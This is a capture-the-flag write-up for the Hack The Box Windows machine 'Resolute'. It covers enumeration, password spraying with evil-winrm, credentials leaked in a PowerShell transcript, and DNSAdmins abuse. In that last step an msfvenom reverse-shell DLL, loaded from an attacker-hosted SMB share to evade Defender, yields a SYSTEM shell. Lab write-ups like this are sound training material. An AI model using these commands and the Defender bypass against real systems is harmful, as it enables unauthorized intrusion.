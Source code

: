 ```yaml
---
layout: default
---
```

## Resolute
###### Retired [date]
![](https://www.hackthebox.eu/storage/avatars/4c86a642ea237dfde036963e6d182b40.png)

This Windows machine takes advantage of lazy adminstrators, poor PowerShell hygiene, and Windows Defender bypasses.

I started this machine with a quick nmap scan to find open ports
```bash
nmap -p 1-65535 -n -v resolute.htb -T5
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap1.png)

I followed up with a more in depth nmap scan on a few of the ports that responded. I had a hunch what I needed was one of the first responders.

```bash
nmap -p 53,139,445,636,5985,88 -n resolute.htb -T4 -A -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap2.png)

My next move was to run enum4linux against resolute.htb.

```bash
enum4linux -a resolute.htb
```

This provided the workgroup name, a list of users, and a password. For the account 'marko' we can see a description that says 'Account created. Password set to Welcome123!'. 

![](https://yaboygmoney.github.io/htb/images/resolute/enum.png)

We learned WinRM was enabled from our nmap scan, so I try to use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to login with the credentials found.

```bash
evil-winrm -u marko -p 'Welcome123!' -i resolute.htb
```

..except, no ya don't.

![](https://yaboygmoney.github.io/htb/images/resolute/badpass.png)

Looks like the password won't work for ```marko```. It does appear to be a standard "Welcome to the organization!" password that is set by default. To check it against the user list provided by enum4linux, I ran

```bash
for user in $(cat u.txt); do evil-winrm -u $user -p 'Welcome123!' -i resolute.htb; done
```

It fails a few times, and then I'm able to authentiate as the user 'melanie'.

![](https://yaboygmoney.github.io/htb/images/resolute/loop.png)

A quick get-content command against C:\users\melanie\desktop\user.txt gets the user flag.

![](https://yaboygmoney.github.io/htb/images/resolute/user.png)

After looking around, it doesn't appear as though the user melanie has too many permissions on this system to escalate. Other users with folders on the system are Administrator and Ryan. 

![](https://yaboygmoney.github.io/htb/images/resolute/users.png)

I decide to see what I can see about Ryan.

```powershell
net user ryan
```

![](https://yaboygmoney.github.io/htb/images/resolute/netryan.png)

Ryan is a member of another group: contractors. We don't have much else to go on, so let's see what we can find.

I start at C:\ and see what's what.

```powershell
Get-ChildItem -force
```
There are a few bonus folders in here, namely PSTranscripts. 

![](https://yaboygmoney.github.io/htb/images/resolute/digging.png)

Enumerating that shows an result.

![](https://yaboygmoney.github.io/htb/images/resolute/pstranscript.png)

The file is 3732 bytes of text, so I decide to pull it down to my Kali machine by using ```download Powershell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` in Evil-WinRM.

Looking through the file, credentials are easily spotted in a command ryan was using to mount a file share.

![](https://yaboygmoney.github.io/htb/images/resolute/ryancreds.png)

Exit the session as melanie and start a new one as ryan:

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i resolute.htb
```

![](https://yaboygmoney.github.io/htb/images/resolute/inAsRyan.png)

I immediately check out what sort of cool things Ryan can accomplish with ```whoami /all```.

![](https://yaboygmoney.github.io/htb/images/resolute/ryangroups.png)

Interestingly, Ryan is a member of the DNSAdmins group. Equally interesting, [this blog](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) covering exploiting DNSAdmin's abilities to load DLLs with the dnscmd.exe binary.

After learning this, I craft a quick DLL payload with msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.28 LPORT=1234 > ybgm.dll
```

I start Metasploits exploit/multi/handler to catch the callback, and upload my DLL to the target. Except..

![](https://yaboygmoney.github.io/htb/images/resolute/busted.png)

Windows Defender is busting this payload as soon as it hits the disk. Shay Ber's previously mentioned article does mention that the payload can be called from a UNC path from a remote server. This is important, because Windows Defender only cares if the file is touching Windows Defender's disk. Loading the DLL from a remote server is safe. So to abuse this feature, I need to do a few things:

1. Serve a share folder from Kali, hosting the DLL
2. Mount the share folder so that Ryan can use it
3. Run the dnscmd to config the loading of the bad DLL
4. Restart the DNS service so the DLL is loaded

To accomplish Step 1, I used [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py YBGM /root/htb/resolute/
```

This command creates an SMB server and share named YBGM, hosting my /root/htb/resolute directory.

![](https://yaboygmoney.github.io/htb/images/resolute/smbsetup.png)

Next, I need to get Ryan using this share. By default, the share doesn't require any authentication, so it's as easy as 

```powershell
net use \\10.10.14.28\ybgm
net use
```

You can see from both the Windows machine and the Kali machine that the connection established.

![](https://yaboygmoney.github.io/htb/images/resolute/mounted.png)

![](https://yaboygmoney.github.io/htb/images/resolute/mounted2.png)

Now I need to run the dnscmd.exe binary to load this DLL and then restart DNS.

```powershell
dnscmd.exe Resolute /config /ServerLevelPlugindll \\10.10.14.28\ybgm\ybgm.dll
sc.exe stop dns
sc.exe start dns
```

![](https://yaboygmoney.github.io/htb/images/resolute/dnscmd.png)

Once DNS comes back up my dll is loaded and a connection is established with my listener.

![](https://yaboygmoney.github.io/htb/images/resolute/metasploit.png)

With the NT AUTHORITY/SYSTEM shell, I can get the contents of C:\users\administrator\desktop\root.txt 

![](https://yaboygmoney.github.io/htb/images/resolute/root.png)
